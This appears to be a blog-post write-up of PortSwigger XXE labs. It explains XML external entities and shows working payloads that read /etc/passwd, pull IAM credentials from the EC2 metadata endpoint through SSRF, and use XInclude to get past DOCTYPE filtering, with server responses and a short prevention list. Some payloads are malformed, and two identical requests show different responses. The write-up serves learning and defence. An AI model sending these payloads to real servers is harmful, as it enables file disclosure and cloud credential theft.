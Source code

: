 ```yaml
---
layout: post
title: XXE (XML External Entities) Injection
subtitle: How malicious user can abouse External Entities to perform XXE
date: 2025-07-30 12:43
author: Ren Sie
comments: true
category: injection
---
```

The method isn’t as popular as others because of the patches. But if comes across with application that access and passing XML, worth trying!

{: .box-note}
**Note:** 💡 Try pass XML data to API endpoint. They sometimes accept XML data besides JSON data.

### XML
Some Apps use XML to transfer data. XML has its default entities, which define the way of representing data or special characters. For instance: 
- `&amp;` → `&`
- `&lt;` → `<`
- `&gt;` → `>`

#### **External Entities**
By default, XML has predefined entities to represent special symbols (like `&lt;` for `<`), but **XML External Entities (XXE)** allow users to define **custom entities**. These custom entities can reference **external resources**, such as _local files_ or _external URLs_. This flexibility can be exploited to read sensitive files on the server, or run RCE.  
They can be defined using the `<!ENTITY>` syntax in XML like this:
~~~
xml:
<!ENTITY entity_name SYSTEM "path_to_file_or_url">
~~~
An example of malicious XML can be:
The entity `xxe` in the `creds` document reference the `/etc/passwd`. When the file path (external URL) is passed, it will be places at `&xxe;`.
~~~
xml:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE creds [
<!ELEMENT creds ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds><user>&xxe;</user><password>pass</password></creds>
~~~

### Labs
Just for demostration, I completed some labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#xml-external-entity-xxe-injection) to show how this vulnerability can lead to:
1. Exploiting XXE using external entities to retrieve files
   I captured and modified `POST /product/stock` with Burp Repeater. Adding the `!DOCTYPE element` that defines an external entity containing the path to the file `etc/passwd`.
   ~~~
   <?xml version="1.0" encoding="UTF-8"?>  
   <!DOCTYPE test [  
   <!ENTITY xxe SYSTEM "file:///etc/passwd">  
   ]>  
   <stockCheck><productId>&xxe;</productId><storeId>2</storeId></stockCheck>  
   ~~~
   > Response:  
   > "Invalid product ID: root:x:0:0:root:/root:/bin/bash  
   > daemon:x:1:1 : daemon :/usr/sbin:/usr/sbin/nologin  
   > bin:x: 2:2 :bin:/bin:/usr/sbin/nologin  
   > sys:x: 3:3 : sys : /dev:/usr/sbin/nologin  
   > sync:x: 4:65534 : sync:/bin:/bin/sync  
   > www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin  
   > backup:x: 34:34 :backup:/var/backups:/usr/sbin/nologin  
   > apt:x:100:65534 :: /nonexistent:/usr/sbin/nologin  
   > peter:x:2001:2001 :: /home/peter:/bin/bash  
   > dnsmasq:x:101:65534 :dnsmasq, ,,:/var/lib/misc:/usr/sbin/nologin  
   > messagebus:x:102:101 :: /nonexistent:/usr/sbin/nologin
   
2. Exploiting XXE to perform SSRF attacks
   I captured and modified `POST /product/stock` with Burp Repeater. Adding the `!DOCTYPE element` that defines an external entity `test` to access EC2 instance metadata. More details about what _EC2 instance metadata_ is, visit [Access instance metadata for an EC2 instance](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html)
   ~~~
   < ?xml version="1.0" encoding="UTF-8"?>  
   < !DOCTYPE test [  
   < !ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data">  
   ]>  
   < <stockCheck><productId>&xxe;</productId><storeId>3</storeId></stockCheck>  
   ~~~
   > Response: It tells us there's an "iam" entity inside  
   > "Invalid Product ID:  
   > iam"
   
   ~~~
   < ?xml version="1.0" encoding="UTF-8"?>  
   < !DOCTYPE test [  
   < !ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam">  
   ]>
   < <stockCheck><productId>&xxe;</productId><storeId>3</storeId></stockCheck>
   ~~~
   > Response: It tells us there's an "security-credentials" entity inside  
   > "Invalid Product ID:  
   > security-credentials"

   ~~~
   < ?xml version="1.0" encoding="UTF-8"?>  
   < !DOCTYPE test [  
   < !ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">  
   ]>  
   < <stockCheck><productId>&xxe;</productId><storeId>3</storeId></stockCheck>  
   ~~~
   > Response: It tells us there's an "admin" entity inside  
   > "Invalid Product ID:  
   > admin"  
   
   ~~~
   < ?xml version="1.0" encoding="UTF-8"?>  
   < !DOCTYPE test [  
   < !ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">  
   ]>  
   < <stockCheck><productId>&xxe;</productId><storeId>3</storeId></stockCheck>  
   ~~~
   > Response: We retrieves admin's access key
   > "Code":"Success",  
   > "LastUpdated":"2021-11-15T11:29:31.956206Z",  
   > "Type":"AWS-HMAC",  
   > "AccessKeyId":"BordnBx2QrCdt7VGVWT3",  
   > "SecretAccessKey":"yBZJPYWjn4XFnBLk3fqe305Fqdc7YT3SUs4vomxF",  
   > "Token":"kMW7yE0Z00lCE8zoDhS1rjX0vRBQG0EepbmRtzxmyzW0g8QtJ4j",  
   > "Expiration":"2027-11-14T11:29:31.956206Z"  

{: .box-note}
**Note:** 💡SSRF exploits a server's request-making functionality, allowing user to make a crafted request that pivots from the public-facing application and uses the server's trusted internal network position to scan, access, and exfiltrate data from otherwise unreachable backend services and cloud metadata endpoints.

3. Exploiting XInclude to retrieve files
   I identified the server-side xml parser by studying `GET /product?productId=3` on Burp Proxy. Insert the `Xinclude namespace` and the filepath to `POST /product/stock` on Repeater.
   ~~~
   productId=<test  
   xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/>  
   </test>&storeId=2
   ~~~
   > Response:  
   > "Invalid product ID: root:x:0:0:root:/root:/bin/bash  
   > daemon:x:1:1 : daemon :/usr/sbin:/usr/sbin/nologin  
   > bin:x: 2:2 :bin:/bin:/usr/sbin/nologin  
   > sys:x: 3:3 : sys : /dev:/usr/sbin/nologin  
   > sync:x: 4:65534 : sync:/bin:/bin/sync  
   > www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin  
   > backup:x: 34:34 :backup:/var/backups:/usr/sbin/nologin  
   > apt:x:100:65534 :: /nonexistent:/usr/sbin/nologin  
   > peter:x:2001:2001 :: /home/peter:/bin/bash  
   > dnsmasq:x:101:65534 :dnsmasq, ,,:/var/lib/misc:/usr/sbin/nologin  
   > messagebus:x:102:101 :: /nonexistent:/usr/sbin/nologin

{: .box-note}
**Note:** 💡XInclude is used to bypass DTD-based Mitigation in this instance, If the application is blocking <!DOCTYPE>, an XInclude might still succeed.

### Prevention
1. Disable XML external entity
2. Use JSON instead of XML
3. Validate and Sanitize XML Input (with XSD)
4. Restrict Network/File Access (OS or Container Level)
